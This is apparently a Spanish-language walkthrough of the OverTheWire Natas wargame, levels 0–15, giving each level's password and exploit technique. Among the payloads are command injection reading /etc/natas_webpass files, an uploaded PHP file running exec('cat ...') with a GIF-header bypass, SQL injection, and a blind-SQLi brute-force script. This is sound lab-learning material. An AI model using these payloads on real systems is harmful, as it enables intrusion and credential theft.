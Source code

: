 # OverTheWire

## Bandit

## Natas

### LVL 0
Hay un password en los comentarios de la web.
```
g9D9cREhslqBKtcA2uocGHPfMZVzeFK6
```
### LVL 1
Bloquea el click derecho con un javascript, podemos pulsar Control + U o poner "view-source" detrás de la URL.
La contraseña está en los comentarios.
```
h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7
```
### LVL 2
Podemos observar en el codigo fuente de la pagina que nos adjunta una imagen, si vamos al directorio que esta la imagen `files` podremos ver que el indexador esta allowed. Encontramos el users.txt. Donde esta la contraseña
```
G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q
```
### LVL 3
Vamos al inspector de codigo y encontramos un comentario que dice que google no va a poder indexar este sitio. Entonces si vamos a robots.txt encontramos una carpeta en disallow `s3cr3t`. Vamos a esa carpeta y tenemos el user.txt
```
tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm
```
### LVL 4 
Nos dicen que para sera auterizados si vienen de natas5. Entonces pillamos el burpsuite y cambiamos el Referer a natas5.

```
Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD
```

### LVL 5
Nos deniegan el acceso. Podemos ver que tenemos una cookie `loggedin` que tiene el valor de 0. Eso quiere decir que es false, entonces nos estan denegando el acceso. Si lo ponemos a 1 podremos acceder.
```
fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR
```

### LVL 6
Podemos ver que guardan el fichero secrets y podemos acceder a verlo.

```
jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr
```

### LVL 7 

Podemos hacer un path reverse y obtener la contraseña. /etc/natas_webpass/natas8

```
a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB
```

### LVL 8

Decodificamos la contraseña.

```php
<?php
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function decodeSecret($secret) {
    return base64_decode(strrev(hex2bin($secret)));
}

echo decodeSecret($encodedSecret);

?>
```
```
Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd
```

### LVL 9
Ponemos `| cat /etc/natas_webpass/natas10` con el pipe nos saltamos el echo y vamos directamente a ver el natas10
```
D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE
```

### LVL 10
Ponemos `a /etc/natas_webpass/natas11`, asi buscamos una a dentro del fichero natas11.

```
1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
```

### LVL 11
Necesitamos poner "showpassword"=>"no" a yes.


Obtenemos la key ya que tenemos el json y la cookie. (XOR)
```php
<?php
$encodedJSON = "MGw7JCQ5OC04PT8jOSpqdmkgJ25nbCorKCEkIzlscm5oKC4qLSgubjY%3D";

function decodejson($secret) {
    return base64_decode($secret);
}

$cookie = decodejson($encodedJSON);

function xor_encrypt($in) {
    $key = json_encode(array( "showpassword"=>"no", "bgcolor"=>"#ffffff"));
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

echo xor_encrypt($cookie);

?>

```
key = KNHL

Cuando hayamos obtenido la llave ahora podremos cambiar la cookie a nuestro gusto.
```php
<?php

$defaultdata = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = "KNHL";
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

echo base64_encode(xor_encrypt(json_encode($defaultdata)));

?>
```

```
YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG
```

### LVL 12

```
Creamos un archivo .php que ejecute un cat de la password del natas13. Y la subimos. La entrada no esta saneada.
```

```php
<?php 
echo exec("cat /etc/natas_webpass/natas13");
?>
```


```
lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9
```

### LVL 13

```
Es lo mismo que natas12, pero "han saneado la entrada", pero no han saneado la extension.
```

```php
GIF8;
<?php 
echo exec("cat /etc/natas_webpass/natas13");
?>
```


```
qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP
```

### LVL 14

```
Hacemos un SQL inyection. Que cerramos las comillas para que siga la sentencia SQL y ponemos k valide la sesion si 1 = 1
```

```
pol" OR 1 = 1 # 
```

```
TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB
```

### LVL 15

```
Hice un Script para poder sacar la contraseña.
```

```python
import requests
import string

URL= "http://natas15.natas.labs.overthewire.org/"

USERNAME = "natas15"
PASSWORD = "TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB"


caracters = string.ascii_letters + string.digits
i = 0
caracterBueno = ""

while True:
    data = {
        'username': 'natas16" AND BINARY password LIKE "' + caracterBueno + caracters[i] + '%" #'

    }
    session = requests.Session()
    response = session.post(
        URL,
        data, 
        auth=(USERNAME,PASSWORD)
    )
    print(caracterBueno + caracters[i])

    if "This user doesn\'t exist." in response.text:
        i = i +1
    else:
        caracterBueno = caracterBueno + caracters[i]
        i = 0

```

```
TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V
```
